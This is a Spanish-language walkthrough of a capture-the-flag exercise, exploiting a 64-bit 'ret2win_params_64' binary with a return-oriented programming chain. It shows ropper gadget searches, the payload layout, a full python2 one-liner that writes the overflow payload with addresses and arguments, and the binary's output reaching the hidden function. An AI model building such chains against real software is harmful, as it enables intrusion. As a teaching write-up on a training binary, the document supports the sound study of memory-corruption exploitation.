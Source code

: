 
### Explotación

Vamos a construir ahora nuestro *payload* que tendrá la siguiente estructura:

```
PADDING (24) + pop_rdi + param_1 + pop_rsi + param_2 + hacked
```

De esta forma, cargaremos en el *stack* dos instrucciones que guardarán en los registros correspondientes los argumentos de la función y la propia llamada a la función.

Para encontrar *pop_rdi* y *pop_rsi* (las instrucciones que guardarán los argumentos en sus correspondientes registros), debemos utilizar [[ropper]]:

```bash
ropper --file ret2win_params_64 --search "pop rdi"
```
```ropper
0x000000000040124b: pop rdi; ret;
```

```bash
ropper --file ret2win_params_64 --search "pop rsi"
```
```ropper
0x0000000000401249: pop rsi; pop r15; ret;
```

No tenemos `pop rsi` como tal, pero tenemos `pop rsi; pop r15`, así que tendremos que añadir un valor *basura* para que se guarde en `r15`. Así que el *payload* pasaría a tener la siguiente estructura:

```
PADDING (24) + pop_rdi + param_1 + pop_rsi_r15 + param_2 + basura + hacked
```

Sacando la dirección de *hacked* de [[gdb]]-[[pwndbg]] (`disassemble hacked`) y los parámetros del código fuente (codificados *LSB*), el comando para generar el *payload* con python2 quedaría:

```bash
python2 -c 'print "A"*24 + "\x4b\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x49\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x42\x11\x40\x00\x00\x00\x00\x00"' > payload
```

Si ejecutamos el binario pasando el *payload*:

```bash
./ret2win_params_64 < payload
```
```ret2win_params_64
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAK@
This function is TOP SECRET! How did you get in here?! :O
[1]    24118 segmentation fault  ./ret2win_params_64 < payload
```

Y ya habríamos resuelto el ejercicio!